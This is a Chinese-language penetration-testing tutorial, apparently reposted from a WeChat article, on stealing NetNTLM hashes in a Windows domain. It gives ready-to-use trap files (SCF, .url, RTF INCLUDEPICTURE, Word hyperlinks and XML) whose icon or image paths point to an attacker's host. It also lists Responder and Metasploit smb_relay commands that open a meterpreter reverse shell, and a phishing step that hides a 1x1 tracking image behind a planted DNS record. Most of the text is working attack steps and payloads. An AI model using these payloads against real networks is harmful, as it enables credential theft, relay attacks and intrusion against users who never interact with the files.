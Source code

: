 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/y1ehsvJEBkZ-qynNrOlAuA)

1.0 前言

在拿下一台机器后一般都是直接抓取密码，其实我们可以通过一些域内水坑攻击了获取更多的哈希值。

2.0 SMB 共享– SCF 文件攻击

SMB 是一种协议，在组织中广泛用于文件共享。在内网渗透中，我们常常在文件共享中发现包含敏感信息（例如，纯文本密码和数据库连接字符串）的文件，虽然文件共享不包含任何可用于连接到其他系统的数据，但如果未经身份验证的用户配置了写权限，也可能会获得域用户的密码哈希或 Meterpreter Shell。

散列哈希

我们可以使用 SCF（Shell 命令文件）文件执行有限的一组操作（例如显示 Windows 桌面或打开 Windows 资源管理器）。但是，如果使用 SCF 文件访问特定的 UNC 路径，那么我们可以发起攻击。

我们可以所有以下代码保存为. scf 文件然后放进文件共享中。

[Shell]

Command=2

IconFile=\\X.X.X.X\share\pentestlab.ico

[Taskbar]

Command=ToggleDesktop

我这里使用

攻击机：kali 192.168.50.146  
web 机：192.168.50.148 10.10.10.8  
DC：10.10.10.10

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpdHc9KksKPnsLq2ianuDQKbggbZ10YQTSWOvpIaIEMSKsCtHCe6hWJ1w/640?wx_fmt=png)

保存为. scf 文件放在文件共享中

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpTWNFZewFeEhySsrQjBDeHL0F6rP4YcLY65YOibwS2BgT9aZre3wKhGg/640?wx_fmt=png)

攻击机监听：

esponder -wrf --lm -v -I eth0

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpFtECS0huEQwa2S9OPm0ClLYEgJN1vnfDVo24nD9Mxqbts3licEdNteg/640?wx_fmt=png)

不用点击，只要访问到文件就能抓到 hash

当用户浏览共享时，将自动从他的系统建立到 SCF 文件中包含的 UNC 路径的连接。Windows 将尝试使用用户名和密码对共享进行身份验证。在该身份验证过程中，服务器会向客户端发送一个随机的 8 字节质询密钥，并使用此质询密钥再次加密散列的 NTLM  
/ LANMAN 密码。我们将捕获 NTLMv2 哈希。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpdEGMso3kknLy9k7xv3Qv6VulXib5NnIqdIvgGbAKUVpwfDxiaricFiaaHA/640?wx_fmt=png)

除了 esponder 之外，在 MSF 中也有相同的模块可用于捕获来自 SMB 客户端的挑战响应密码哈希。

auxiliary/server/capture/smb

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRp4Fhicek9qQe8wicbHrYrM4HMicZSBeibxibEuiaiakHFewcsrDwTlvO4rUHOA/640?wx_fmt=png)

设置好叁数后就可以了，当用户浏览相同共享时，Metasploit 将捕获其密码哈希。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpTNmTU8mbvvw0Ix1CcAuxPLULCtsSssukWrLFLh4Og6qaicz4ckgvYfQ/640?wx_fmt=png)

Meterpreter shell

上面的技术的主要优点是不需要任何用户交互，并自动强制用户连接到不存在的共享进行 NTLMv2 哈希进行协商。我们也可以将该技术与 SMB 中继相结合，后者提供有效载荷，以便从将访问共享的每个用户那里获取一个 Meterpreter shell。

我们使用 exploit/windows/smb/smb_relay 模块

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRperibSgiaR3AjLw3ZJK2LUzKCLwczpybTw0RuYlZnlmgy5we19vw1bIQA/640?wx_fmt=png)

exploit/windows/smb/smb_relay

set payload windows/meterpreter/reverse_tcp

set LHOST xxxxxxx

exploit

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpI7AShv8iaAAMA2zWfGpBW37BFQOeYlhDQv2dI1XO1Nqv6qNer4ibSoKQ/640?wx_fmt=png)

将建立一个 SMB 服务器，该服务器将通过使用用户名和密码哈希与目标进行身份验证，在可写共享上交付有效负载，以用户的权利作为服务执行有效负载，执行清理并进行 Meterpreter 会话。

3.0 通过超链接

新建一个 word 文档，然后建立一个超链接

\\192.168.50.146\newyork.exe

注意这里指向我们自己的 IP

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRp9vh8yu51nJ2ff7hydc03CN09odKV7s6cUKP5Cm2srGo8jwWk96HHVw/640?wx_fmt=png)

可以加一些迷惑性的文字。

在 kali 中监听一下

responder -I eth0

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRp5DqpouyeMBibPYc2Od3h84l72JGlOBzposP5Vzmdbemj0DHbEpkhcYg/640?wx_fmt=png)

当目标打开之后就可以获得 hash

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRphp6EU9ViaXNtvUO87kFibDmjCZU0g8licMRWdpsMPtibPaICttlY8oicNFg/640?wx_fmt=png)

我这里获取不到，但是我昨天还是可以的，，，，，

4.0 通过 URL

c:\link.url@victim

[InternetShortcut]

URL=whatever

WorkingDirectory=whatever

IconFile=\\10.0.0.5\%USERNAME%.icon

IconIndex=1

保存为. url 文件上传到目标中

在 kali 中监听一下

responder -I eth0

然后目标访问到即可拿到 hash

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpNdiaHFhdFoodSib5zJ6kIRfPOLGpPmwaxFuKRYMcfX3kE7OWojDATDiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpXxH01xUnNtSkM1Ede9AchJ76oUuz6HFYnCCp7fr575h1Dj2ibcvgR7A/640?wx_fmt=png)

5.0 通过. RTF

file.rtf

{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}

上传到目标中

在 kali 中监听一下

responder -I eth0

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRp31HUf82swBBAtc3fsNNicAmtibhXzuYicqRWA3iaqLm5axs8y6abEbFujA/640?wx_fmt=png)

6.0 通过. xml 文件

MS Word 文档可以保存为. xml 文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpnZGaUPh9XOtJLqpCP8pYYNyhmibdzOWm6DXnwGXKCTjD4qaIPSic5JMg/640?wx_fmt=png)

这可以利用其中一个标签请求文档的样式表 (第 3 行) 从攻击者控制服务器。受害者系统将分享其 NetNTLM 散列与攻击者试图验证攻击者的系统:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRp02bosJwaibK4PHpfTG4PsQqWYMc0HnFTRxL2QlaiasY8cH0mphSAZnyg/640?wx_fmt=png)

7.0 通过 IncludePicture 执行

新建一个 Word 文档, 插入一个新的 IncludePicture :

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpCZyEv6FpVic7KYMTgrpic4AUhkPdC6LAw3Sx9G0XNOwtHibRSpAz9KSzQ/640?wx_fmt=png)

保存为 XML  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpag2kaAL4TdOM5YVSMXnfttmoqQrrzfhRuvBQgsv05VAudZxJQ950MQ/640?wx_fmt=png)

注意要改 ip 地址

只要目标启动即可拿到 hash

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDO9XO9aE35YfJBuGQM5dRpag2kaAL4TdOM5YVSMXnfttmoqQrrzfhRuvBQgsv05VAudZxJQ950MQ/640?wx_fmt=png)

8.0 通过 HTTP 图像和内部 DNS

如果我们在网络中立足，可以执行以下操作：

在域内创建一个新的 DNS A 记录（任何经过身份验证的用户都可以做到），然后将其指向外部服务器  
例如 offense.local1.1.1.1

可以使用 PowerMad 

https://github.com/Kevin-Robertson/Powermad

Invoke-DNSUpdate -dnsname vpn -dnsda

在服务器 1.1.1.1 上，启动并侦听端口 80 上的 HTTP 连接

创建包含以下内容的网络钓鱼电子邮件   
随意将图片设为 1x1 像素或隐藏  
请注意，解析为我们的服务器，但仅来自域内部 http://vpn.offense.local1.1.1.1offense.local

将网络钓鱼发送到域中的目标用户 offense.local  
网络钓鱼收件人查看电子邮件，该电子邮件会自动尝试从中加载图像，然后将其解析为（端口 80 上响应程序变亮的位置）http://vpn.offense.localhttp://1.1.1.1

那么我们无需目标用户交互即捕获 NetNLTMv2 哈希

参考

https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-hyperlink  
https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/  
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/  
https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208  
https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/  
https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html